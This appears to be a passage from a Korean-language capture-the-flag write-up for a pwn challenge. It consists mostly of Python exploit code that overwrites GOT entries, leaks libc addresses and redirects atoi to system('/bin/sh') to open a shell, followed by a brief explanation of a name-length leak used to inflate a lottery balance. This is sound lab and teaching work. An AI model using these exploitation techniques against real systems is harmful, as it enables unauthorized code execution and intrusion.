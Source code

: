 ```python
# exit_got -> start
aaw(exit_got, start)
exit()
set_name(b'B')

# setvbuf_got -> puts_plt
aaw(setvbuf_got, puts_plt)
exit()
set_name(b'C')

# stderr -> puts_got
aaw(stderr, puts_got)
exit()
p.recvuntil(b'EXIT..\n')
p.recvn(5+5)
puts = u64(p.recv(6).ljust(8, b'\x00'))
set_name(b'D')

# stderr -> read_got
aaw(stderr, read_got)
exit()
p.recvuntil(b'EXIT..\n')
p.recvn(5+5)
read = u64(p.recv(6).ljust(8, b'\x00'))
set_name(b'D')

# libc leak
print("puts: ", hex(puts))
print("read: ", hex(read))
libc_base = puts - puts_offset
print("libc_base: ", hex(libc_base))

# atoi_got -> system("/bin/sh")
aaw(atoi_got, libc_base + system_offset)
p.sendafter(b'=> ', b'/bin/sh\x00')

p.interactive()
```

---

```python
asset = 0
while(asset < 4096):
    lottery = get_lottery()
    asset += draw(lottery)
```

`name`을 0x30 길이의 문자열로 설정해서 `name`을 출력할 때 `lottery`까지 출력할 수 있다  
이를 이용해 `asset`을 4096까지 불린다  

256씩 증가하기 때문에 16번만 하면 되는데 이상하게 가끔 실패하는 경우도 있어서 `while()`을 사용하여 4096이 될 때까지 반복한다  
이때 4096이 넘어가면 바이너리 자체에서 `break`로 프롬프트를 다시 입력 받는다  
<br>

---